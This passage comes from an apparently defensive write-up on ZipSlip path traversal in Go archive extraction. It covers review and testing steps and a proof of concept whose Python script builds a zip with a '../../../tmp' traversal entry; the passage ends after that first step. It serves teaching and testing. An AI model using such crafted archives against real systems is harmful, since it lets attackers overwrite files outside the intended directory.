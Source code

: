     - Review how symbolic links are handled. Are they disallowed, or are their targets also validated?.
        
3. **Dynamic Application Security Testing (DAST):**
    - If the application has a feature that accepts archive uploads, test it by uploading crafted archives containing path traversal sequences (e.g., filenames like `../../../../tmp/test.txt`) and symlinks pointing outside the intended directory.

    - Monitor the file system to see if files are created or overwritten in unintended locations.
    - Tools like Hackvertor can be used to generate malicious zip files for testing file upload functionalities.
        
4. **Dependency Scanning:**
    - Use tools like Snyk, JFrog Xray, or `govulncheck` to identify if any third-party archive handling libraries used in the project have known ZipSlip vulnerabilities (e.g., CVE-2025-3445 in `mholt/archiver`).

5. **Reviewing GODEBUG Flags:**
    - Check if `GODEBUG=zipinsecurepath=1` or `tarinsecurepath=1` is set, as this would disable the default `ErrInsecurePath` protection in Go 1.20+ for the respective archive types, potentially re-enabling vulnerabilities if the code relies on this default protection.

## **Proof of Concept (PoC)**

This Proof of Concept demonstrates the ZipSlip vulnerability using Go's standard `archive/zip` package with insecure extraction logic.

**Objective:** Create a malicious ZIP file that, when extracted by a vulnerable Go program, writes a file outside the intended destination directory.

**Step 1: Create a Malicious ZIP File (`create_malicious_zip.py`)**

This Python script creates `malicious.zip` containing an entry that attempts to traverse directories.

```Python

import zipfile
import os

def create_malicious_zip(zip_path, traversal_path, content):
    """
    Creates a malicious zip file.
    zip_path: Path to save the.zip file.
    traversal_path: The path including traversal (e.g., "../../../tmp/malicious_file.txt").
    content: The content of the malicious file.
    """
    with zipfile.ZipFile(zip_path, 'w') as zf:
        # Add a benign file (optional, makes archive look more normal)
        zf.writestr("benign.txt", "This is a safe file.")

        # Add the malicious file with path traversal
        # Note: Some zip tools/libraries might clean this on creation.
        # A more robust method for some archivers involves symlink_info as in.[1]
        # For a simple path traversal in filename:
        zf.writestr(traversal_path, content.encode('utf-8')) # Ensure content is bytes
    print(f"Malicious zip created at {zip_path} targeting {traversal_path}")

if __name__ == "__main__":
    # Target a common, writable directory. Adjust for your OS.
    # For *nix:
    target_file_relative_path = "../../../tmp/zip_slip_poc.txt"
    # For Windows (example, be careful with paths):
    # target_file_relative_path = "..\\..\\..\\Users\\Public\\zip_slip_poc.txt"

    create_malicious_zip("malicious.zip", target_file_relative_path, "ZipSlip PoC successful!")

```
